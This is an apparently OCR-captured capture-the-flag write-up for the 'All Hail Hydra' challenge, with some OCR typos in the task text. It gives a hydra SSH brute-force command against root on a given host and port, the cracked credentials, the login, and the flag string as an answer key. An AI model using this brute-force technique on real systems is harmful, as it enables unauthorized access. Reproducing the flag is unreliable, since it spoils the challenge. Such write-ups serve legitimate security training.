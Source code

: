# All Hail Hydra


## Task
> Rumors have circulated among the hacking comunity that inside the facility Lies a powerful flag, the ultimate prize that grants the possessor unprecedented control over. cyverspace. This flag is said to hold the key 20 accessing top-secret government networks, unlocking untold secrets, and potentially altering the course of history. The flag is Tumored to reside possibly withinthe temporary folder. Note: Be careful to not get detected if bruteforcing.  

> Note: Be Careful to not get detected if bruteforcing.


## Solution
* nslookup for ip  
* bruteforce using hydra with `root` as username  
* `hydra -l root -P wordlist.txt ssh://165.227.210.30 -s 16366`  
* credentials: `root:iloveyou`  
* SSH into the machine:
    * `ssh root@0.cloud.chals.io -p 16366`
* go to `/tmp`   
* FLAG: `KPMG_CTF{ed0d1d2926547a24488d29fb5c3941be}`
